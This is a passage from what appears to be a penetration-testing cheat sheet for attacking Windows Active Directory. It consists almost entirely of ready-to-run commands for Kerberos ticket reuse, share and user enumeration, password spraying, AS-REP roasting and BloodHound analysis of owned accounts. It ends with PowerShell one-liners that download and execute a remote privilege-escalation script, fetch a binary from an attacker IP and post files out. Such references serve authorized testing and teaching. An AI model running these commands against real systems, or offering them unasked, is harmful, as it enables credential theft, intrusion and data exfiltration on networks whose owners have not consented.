   ```
  $ export KRB5CCNAME=/home/testuser/impacket/administrator.ccache 
  $ cme smb zoro.gold.local --use-kcache
  ```

## NetExec
List readable or writable share:   
`#~ nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --shares --filter-shares READ WRITE`   

Enumerate domain users on the remote target:   
`nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --users`   
  
## Password Spraying
- Using Kerbrute:   
  `# ./kerbrute_linux_amd64 passwordspray --dc 10.10.10.1 -d example.net userlist.txt 'F00B@r23!'`   
- Check username with username as password:   
  `# ./kerbrute_linux_amd64 passwordspray --dc <dcip> -d domain.local adusers.txt --user-as-pass `   
- PowerShell script: https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1   
### Analysis in BloodHound
1. Store all users to a textfile owned_users.txt   
2. Add a flag to all these users in the Neo4j DB that could be sprayed successfully using BloodHoundLoader (https://git.compass-security.com/csnc/tools2go/blob/master/stable/bloodhound/BloodHoundLoader.py):   
   `# ./stable_bloodhound_BloodHoundLoader.py -o "pwspray='pw1'" owned_users.txt`   
4. Because you own the password of these users, you can also mark them as owned in BloodHound:   
   `# ./stable_bloodhound_BloodHoundLoader.py -m o owned_users.txt`   
5. Use the following Cypher query to get the users and their local admin count (adjust the added flag, e.g. u.pwspray = "pw1"):   
   ```
   MATCH (u:User) WHERE u.pwspray = "pw1"
   OPTIONAL MATCH (u)-[:AdminTo]->(c1:Computer)
   OPTIONAL MATCH (u)-[:MemberOf*1..]->(:Group)-[:AdminTo]->(c2:Computer)
   WITH u, COLLECT(c1) + COLLECT(c2) AS tempComputers UNWIND tempComputers AS computers
   RETURN u.name, COUNT(DISTINCT(computers))
   ORDER BY COUNT(DISTINCT(computers)) DESC
   ```
 
 ## ASRepRoasting   
 - using impacket:   
   `# python3 GetNPUsers.py <domainname>/ -usersfile /root/Desktop/adusers.txt -dc-ip <dcip>`   

## File Transfer
### PowerShell File Download
- `Invoke-RestMethod -Uri $uri -Method Post -InFile $uploadPath -UseDefaultCredentials` 
- `IEX ((New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1"))`  
- `powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"`  

